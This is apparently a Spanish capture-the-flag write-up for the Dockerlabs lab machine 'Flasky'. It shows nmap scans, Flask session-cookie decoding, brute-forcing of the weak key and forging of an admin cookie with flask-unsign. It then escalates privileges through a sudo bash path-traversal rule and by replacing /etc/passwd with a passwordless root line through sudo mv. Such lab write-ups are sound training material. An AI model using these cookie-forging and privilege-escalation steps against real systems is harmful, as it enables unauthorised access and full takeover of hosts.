






# 🖥️ Write-Up: [Flasky](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Flasky
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: mikisbd
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root
---

## 🔍 Enumeración

La máquina Flasky tiene la ip **172.17.0.2**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.

```bash
# Nmap 7.98 scan initiated Tue Mar 17 11:47:09 2026 as: /usr/lib/nmap/nmap -sS -p- --open --min-rate 5000 -n -Pn -oN allPorts 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

La máquina tiene abiertos los puertos **22** y **5000**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.

```bash
# Nmap 7.98 scan initiated Tue Mar 17 11:47:32 2026 as: /usr/lib/nmap/nmap -sS -p22,5000 -sCV -n -Pn -oN target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u1 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.11.15)
| http-title: CTF Terminal
|_Requested resource was /login
|_http-server-header: Werkzeug/3.0.1 Python/3.11.15
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- El puerto 22 está ejecutando un servicio de OpenSSH
- El puerto 5000 está ejecutando un servicio con Werkzeug

### Puerto 5000

Accedemos con el navegador y vemos un panel de login.



No disponemos de credenciales ni tampoco el panel es vulnerable a algún tipo de inyección, pero el apartado **INITIALIZE NEW USER** nos lleva a un directorio para registrarnos, así que creamos un nuevo usuario con las credenciales **test:test** y entramos al panel de login con ellas.



Tenemos un mensaje que nos indica que debemos acceder como un usuario administrador.

## 🔥 Explotación

**Werkzeug** es un servicio que se utiliza con frameworks como **Flask**, por lo que vamos a desencriptar la cookie de sesión de Flask para ver que payload está recibiendo el servidor. Para ello vamos a emplear **flask-unsign**. En este repositorio están las instrucciones de instalación y de uso https://github.com/Paradoxis/Flask-Unsign

Copiamos nuestra cookie de sesión del navegador y usamos **flask-unsign**
```bash
flask-unsign --decode --cookie '.eJyrViooyk_LzElVslIqLU4tUtIBU_GZKUpWxhB2XmIuSLYktbhEqRYAkK4QQQ.abpi9Q._4eDRs6TU4ua3Mko8fGJacDD-G0'
```

Obtenemos --> **{'profile': 'user', 'user_id': 3, 'username': 'test'}**

Como vemos hay una propiedad **profile** que indica que nuestro usuario es **user**, así que lo vamos a sustituir por **admin** y vamos a generar una nueva cookie. Antes de ello necesitamos saber la **key** que se ha usado para encriptar, para obtenerla usamos la función de fuerza bruta de **flask-unsign**


```bash
flask-unsign --unsign --cookie '.eJyrViooyk_LzElVslIqLU4tUtIBU_GZKUpWxhB2XmIuSLYktbhEqRYAkK4QQQ.abpi9Q._4eDRs6TU4ua3Mko8fGJacDD-G0'
```
Conseguimos la key --> **secret123**

Ahora usamos esta key y el payload indicando que nuestro usuario es **admin** para generar la nueva cookie

```bash
flask-unsign --sign --cookie "{'profile': 'admin', 'user_id': 3, 'username': 'test'}" --secret 'secret123'
```

Ponemos esta nueva cookie en el navegador y recargamos la página del dashboard



## 🔑 Acceso SSH
### Peter

Accedemos con las credenciales de **peter** y obtenemos la **flag de user**



### Pan 

Vemos que **peter** puede utilizar como el usuario **pan** el binario de **bash** sobre cualquier archivo de su directorio, pero no sabemos si hay algún script que nos permita convertirnos en el usuario **pan** o nos de información útil, ya que no tenemos permisos en ese directorio.

Para realizar la explotación creamos en el directorio **tmp** un script que nos lance una **bash**

```bash
echo '/bin/bash' > /tmp/script.sh
```

Y aplicamos un **Path Traversal** en la ejecución de **bash** como **pan** para que nos apunte a ese script.

```bash
sudo -u pan /usr/bin/bash /home/pan/../../tmp/script.sh
```



### Root

Al mirar los permisos sudoers de **pan** vemos un **BROKEN SUDO**, esto es un mensaje personalizado que nos restringe el uso de sudo. 

Si revisamos el archivo **/etc/sudoers.d/pan** observamos que **pan** puede ejecutar como cualquier usuario **mv**

La idea es ejecutar como **root** el binario **mv** pero a través del usuario **peter** usando una técnica similar a la que hemos empleado para obtener la shell como **pan**.

Primero nos convertimos en **peter**, copiamos a nuestro equipo el contenido del **/etc/passwd** y quitamos la **x** que está al lado de root, de modo que el archivo quede así:

```bash
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:996:996:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:995:65534:sshd user:/run/sshd:/usr/sbin/nologin
peter:x:1000:1000:,,,:/home/peter:/bin/bash
pan:x:1001:1001:,,,:/home/pan:/bin/bash
```

Ahora pasamos este **nuevo passwd** al directorio **tmp** de la máquina mediante **scp**

```bash
scp passwd peter@172.17.0.2:/tmp/passwd
```

Creamos un script en el directorio **tmp** para mover este nuevo **passwd** al directorio **etc**

```bash
echo 'sudo /usr/bin/mv /tmp/passwd /etc' > /tmp/mv.sh
```

Y ahora ejecutamos este nuevo script como **pan**

```bash
sudo -u pan /usr/bin/bash /home/pan/../../tmp/mv.sh
```

De esta forma hemos desvinculado el **passwd** del **shadow** por lo que el usuario **root** no tiene contraseña y al ejecutar un **su root** nos convertimos en él sin necesidad de proporcionarla.


